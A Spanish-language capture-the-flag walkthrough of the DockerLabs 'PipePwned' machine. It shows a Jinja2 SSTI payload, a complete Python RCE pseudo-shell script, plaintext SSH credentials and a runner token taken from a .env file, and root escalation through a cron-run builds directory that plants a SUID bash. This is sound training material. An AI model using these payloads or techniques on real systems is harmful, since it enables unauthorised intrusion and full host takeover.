







# PipePwned Dockerlabs (Intermediate)

# Contexto de la maquina
## Trayectoria PipePwned

<figure><figcaption></figcaption></figure>

## Descripción

**PipePwned** es una máquina Linux de dificultad **Intermediate** en DockerLabs que simula la consola CI/CD interna de una empresa de software (**MASoftware**). La cadena de compromiso encadena tres vulnerabilidades para comprometer el sistema completo.

El acceso inicial parte de un **SSTI** (Server-Side Template Injection) en el campo `ref` del formulario de creación de pipelines, que permite inyectar código Python arbitrario en el motor de plantillas Jinja2 del servidor, dando RCE como el usuario `ciapp`. En el directorio `/opt/ci/` hay un archivo `.env` con credenciales SSH del usuario `devops` en texto plano, con el que escalamos por SSH. La escalada final a `root` se consigue abusando del mecanismo de ejecución automática de scripts del runner: `devops` pertenece al grupo `devops` y tiene permisos de escritura en `/opt/ci/builds/`, cuyos `.sh` el proceso `runner.sh` ejecuta periódicamente como `root`. Colocando un script malicioso en ese directorio obtenemos ejecución como `root`.

**Objetivo**

- Identificar y explotar el SSTI en Jinja2 para obtener RCE como `ciapp`.
- Encontrar las credenciales SSH de `devops` en el archivo `.env`.
- Abusar del runner CI/CD ejecutado como `root` para escalar privilegios.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Ubuntu)
- Categoría principal: Web / Linux Privilege Escalation
- Componentes involucrados:
    - Consola CI/CD con Jinja2 (Gunicorn + Python).
    - SSTI en el parámetro `ref` del endpoint `/pipelines/new`.
    - Credenciales SSH en texto plano en archivo `.env`.
    - Script de runner CI/CD ejecutado como `root`.
    - Directorio `builds/` con permisos de escritura para el grupo `devops`.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip pipepwned.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh pipepwned.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-11 09:31 +0200
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.16 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
|_http-title: MASoftware · CI/CD Console

Nmap done: 1 IP address (1 host up) scanned in 7.28 seconds
```

Dos puertos abiertos:

- **Puerto 22** → SSH (OpenSSH 8.9p1), de momento no explotable directamente.
- **Puerto 80** → HTTP servido por **Gunicorn**, un servidor web Python. El título `CI/CD Console` confirma que estamos ante una consola de integración y despliegue continuo construida en Python, lo que convierte al motor de plantillas Jinja2 en el candidato inmediato para SSTI.
## Enumeración web

Accedemos a la aplicación:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Vemos la consola CI/CD de MASoftware. El botón `View trace` muestra el log de la última ejecución:

```
Running with gitlab-runner (shell executor) on self-hosted-01
$ echo "Building masoftware-landing @ main"
$ npm ci && npm run build
added 214 packages in 11s
Build succeeded
$ ./deploy.sh --env prod
Deploy OK
Job succeeded
```

El log revela que hay un runner que ejecuta scripts de shell. La consola permite crear nuevos pipelines con dos campos: `name` y `ref`. Probamos Command Injection en ambos campos de varias formas, pero el servidor no lo ejecuta. Al ser una aplicación Python con Gunicorn, el motor de plantillas Jinja2 es el siguiente vector a probar.
# Escalate user devops

<figure><figcaption></figcaption></figure>

## Identificación y explotación del SSTI

El **SSTI** (Server-Side Template Injection) ocurre cuando la aplicación inserta datos controlados por el usuario directamente dentro de una plantilla que el motor evalúa, en lugar de tratarlos como texto plano. En Jinja2, las expresiones entre `{{ }}` se evalúan en el servidor. Aprovechando la cadena de atributos Python (`__class__`, `__init__`, `__globals__`), es posible navegar hasta el módulo `os` para ejecutar comandos del sistema operativo.

Confirmamos el SSTI con el payload matemático clásico `{{7*7}}`: si el servidor devuelve `49` en lugar del texto literal, está evaluando la expresión:

```bash
curl -s -X POST http://<IP>/pipelines/new -d "name={{7*7}}" -d "ref={{7*7}}"
```

Respuesta (extracto relevante de la respuesta HTML):

```html
<p class="banner">Pipeline <strong>49</strong> sent to queue for ref <code>49</code> on runner <em>self-hosted-01</em>.</p>
```

El servidor evalúa `{{7*7}}` y devuelve `49`. SSTI confirmado. Ahora escalamos a RCE usando la cadena de escape de la sandbox de Jinja2 para llegar al módulo `os`:

```bash
curl -s -X POST http://<IP>/pipelines/new -d "name=test" \
  -d "ref={{config.__class__.__init__.__globals__['os'].popen('id').read()}}"
```

Respuesta (extracto):

```html
<code>uid=1000(ciapp) gid=1000(ciapp) groups=1000(ciapp)</code> on runner
```

El comando `id` se ejecuta como el usuario `ciapp`. Tenemos RCE.
## Pseudo-shell mediante script Python

Para explorar el sistema de forma cómoda sin necesidad de lanzar una reverse shell, creamos un script Python que automatiza el envío de payloads SSTI y muestra el output limpio, funcionando como una pseudo-shell interactiva. El script extrae el resultado del comando usando una expresión regular sobre el HTML de respuesta y aplica `html.unescape()` para revertir la codificación HTML que el servidor aplica a caracteres como `'` y `>`:

> ssti_rce.py

```python
#!/usr/bin/env python3
"""
Exploit SSTI (Jinja2) en /pipelines/new -> RCE
Uso:
    python3 ssti_rce.py "id"
    python3 ssti_rce.py -u http://172.17.0.2 "whoami"
    python3 ssti_rce.py -i          # modo interactivo tipo shell
"""

import argparse
import html
import re
import sys

import requests

DEFAULT_URL = "http://172.17.0.2"
ENDPOINT = "/pipelines/new"

# Payload SSTI: escapamos la sandbox de Jinja2 vía __class__/__globals__
# para llegar al módulo os y ejecutar el comando con popen().
PAYLOAD_TEMPLATE = (
    "{{{{config.__class__.__init__.__globals__['os'].popen('{cmd}').read()}}}}"
)

# El resultado del comando aparece dentro de:
#   <code>...OUTPUT...\n</code> on runner
BANNER_RE = re.compile(
    r"ref\s*<code>(.*?)</code>\s*on runner",
    re.DOTALL,
)


def run_command(cmd: str, base_url: str, timeout: int = 10) -> str:
    """Envía el payload SSTI y devuelve el output del comando ya limpio."""
    payload = PAYLOAD_TEMPLATE.format(cmd=cmd.replace("'", r"\'"))

    resp = requests.post(
        base_url.rstrip("/") + ENDPOINT,
        data={"name": "test", "ref": payload},
        timeout=timeout,
    )
    resp.raise_for_status()

    match = BANNER_RE.search(resp.text)
    if not match:
        raise RuntimeError("No se pudo extraer el output.")

    raw = match.group(1)
    output = html.unescape(raw).strip("\n")
    return output


def main():
    parser = argparse.ArgumentParser(description="SSTI RCE exploit (CTF)")
    parser.add_argument("command", nargs="?", help="Comando a ejecutar")
    parser.add_argument("-u", "--url", default=DEFAULT_URL)
    parser.add_argument("-i", "--interactive", action="store_true")
    args = parser.parse_args()

    if args.interactive:
        print(f"[*] Shell interactiva contra {args.url}{ENDPOINT}")
        print("[*] Escribe 'exit' para salir.\n")
        while True:
            try:
                cmd = input("ssti$ ").strip()
            except (EOFError, KeyboardInterrupt):
                print()
                break
            if not cmd or cmd.lower() in ("exit", "quit"):
                break
            try:
                print(run_command(cmd, args.url))
            except Exception as e:
                print(f"[!] Error: {e}")
        return

    if not args.command:
        parser.error("Debes indicar un comando o usar -i para modo interactivo")

    try:
        print(run_command(args.command, args.url))
    except Exception as e:
        print(f"[!] Error: {e}")
        sys.exit(1)


if __name__ == "__main__":
    main()
```

```bash
python3 ssti_rce.py -i
```

Respuesta:

```
[*] Shell interactiva contra http://172.17.0.2/pipelines/new
[*] Escribe 'exit' para salir.

ssti$
```
## Enumeración del sistema como ciapp

<figure><figcaption></figcaption></figure>

Con la pseudo-shell operativa, enumeramos el sistema. En `/opt` encontramos la carpeta `ci` con los archivos del runner:

```
ssti$ ls -la /opt/ci
-rw-r----- 1 ciapp ciapp  189 Jul 18 20:04 .env
drwxrwsr-x 1 root  devops  20 Sep 11 07:30 builds
-rwx--x--x 1 root  root   813 Jul 18 19:12 runner.sh
```

La `s` en los permisos de `builds/` (`rwxrwsr-x`) indica bit **SGID**: cualquier archivo creado dentro hereda el grupo `devops`. El archivo `.env` es accesible por `ciapp`. Lo leemos:

```
ssti$ cat /opt/ci/.env
```

Respuesta:

```
# Runner base config: /etc/gitlab-runner/config.toml
CI_REGISTRY=registry.masoftware.dl
CI_RUNNER_TOKEN=glrt-9ef2bb338750bea3f20e

DEVOPS_SSH_USER=devops
DEVOPS_SSH_PASS=MAS0ftware_202607!
```

Las variables `DEVOPS_SSH_USER` y `DEVOPS_SSH_PASS` contienen las credenciales SSH del usuario `devops` en texto plano. Este archivo está pensado para que el proceso CI/CD pueda autenticarse en servidores remotos, pero al ser legible por `ciapp` queda expuesto a cualquier RCE que obtengamos.
## SSH (devops)

```bash
ssh devops@<IP>
# Contraseña: MAS0ftware_202607!
```

Respuesta:

```
devops@379fbe9d0b1e:~$ whoami
devops
```

Somos `devops`. Leemos la flag del usuario:

> user_flag.txt

```
30e3108dbbf867259a30a459770dd25c
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Análisis de la configuración del runner

Recordamos que en el `.env` había una referencia a `/etc/gitlab-runner/config.toml`. Leemos la configuración completa:

```bash
cat /etc/gitlab-runner/config.toml
```

Respuesta:

```toml
[[runners]]
name = "self-hosted-01"
executor = "shell"
# Script gets executed with the privileges of the user running the runner service
builds_dir = "/opt/ci/builds"
environment_file = "/opt/ci/.env"

# TODO: service runs as root, migrate to a non-root user
```

El propio comentario del desarrollador lo confirma: el servicio corre como `root` y los scripts en `builds_dir` se ejecutan con esos privilegios. `devops` pertenece al grupo `devops`, que tiene escritura en ese directorio.
## Verificación del mecanismo de ejecución

Confirmamos que el runner está corriendo como `root`:

```bash
ps aux | grep runner
```

Respuesta:

```
root   18  0.0  0.0   4372  3288 ?   S  07:30  0:00 /bin/bash /opt/ci/runner.sh
```

Verificamos el mecanismo completo con un script de prueba antes de escalar:

```bash
echo "echo pwned-by-devops > /tmp/proof.txt" > builds/probe.sh
chmod +x builds/probe.sh
sleep 25
cat /tmp/proof.txt
```

Respuesta:

```
pwned-by-devops
```

El runner ejecutó nuestro script como `root` y creó el archivo en `/tmp/`. El mecanismo funciona: cualquier `.sh` colocado en `builds/` se ejecuta automáticamente como `root` en el siguiente ciclo.
## Escalada a root mediante script malicioso

Con el mecanismo confirmado, colocamos un script que crea una copia de `bash` con el bit SUID activo. Esto nos permitirá escalar a `root` en cualquier momento posterior ejecutando `rootbash -p`:

```bash
cat > builds/pwn.sh << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
chmod +x builds/pwn.sh
sleep 25
ls -la /tmp/rootbash
```

Respuesta:

```
-rwsr-xr-x 1 root root 1396520 Sep 11 08:23 /tmp/rootbash
```

El bit SUID está activo. Ejecutamos con el flag `-p`, que indica a bash que preserve los privilegios del propietario del binario (`root`) en lugar de usar los del usuario que lo lanza:

```bash
/tmp/rootbash -p
```

Respuesta:

```
rootbash-5.1# whoami
root
```

Ya somos `root`. Leemos la flag final:

> root_flag.txt

```
cff89c3a4ea6977b2213c344a4a84650
```


